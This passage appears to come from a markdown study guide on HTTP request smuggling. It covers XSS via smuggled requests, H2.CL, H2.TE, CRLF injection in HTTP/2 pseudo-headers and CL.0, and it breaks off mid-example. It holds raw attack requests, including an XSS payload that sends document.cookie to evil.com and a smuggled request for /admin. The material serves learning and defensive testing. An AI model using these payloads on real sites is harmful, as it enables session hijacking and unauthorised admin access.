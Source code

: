         Cookie: session=VICTIM-SESSION-TOKEN

        GET /
        ```
    
    - **Performing XSS attacks**
      - Smuggle a request that plants an XSS payload in a response
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 170
        Transfer-Encoding: chunked

        0

        GET /post/comment HTTP/1.1
        Host: vulnerable-website.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 400

        comment=<script>document.location='https://evil.com/'+document.cookie</script>&postId=1
        ```

- **Advanced HTTP request smuggling techniques**
  
  - **HTTP/2-based request smuggling**
    
    - **H2.CL vulnerabilities**
      - Front-end speaks HTTP/2, back-end uses HTTP/1.1 with `Content-Length`
      - HTTP/2 doesn't use Content-Length for message framing
      - Attack by adding a `content-length` header that gets passed to the back-end during downgrading
    
    - **H2.TE vulnerabilities**
      - Front-end speaks HTTP/2, back-end uses HTTP/1.1 with `Transfer-Encoding`
      - HTTP/2 downgrading passes `transfer-encoding: chunked` to the back-end
      - Attack by manipulating the HTTP/2 message body to create invalid chunked encoding
    
    - **Request smuggling via CRLF injection**
      - Inject newlines in HTTP/2 pseudo-headers that become headers in HTTP/1.1
      - Example:
        ```
        :method: POST
        :path: /
        :authority: vulnerable-website.com
        :scheme: https
        content-type: application/x-www-form-urlencoded
        content-length: 0

        GET /admin HTTP/1.1
        Host: vulnerable-website.com
        ```
  
  - **CL.0 vulnerabilities**
    
    - **Front-end uses Content-Length, back-end ignores message body**
      - Back-end treats requests without `Transfer-Encoding` or `Content-Length` as end-of-request
      - Attacker sends request with a body containing a complete smuggled request
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 53
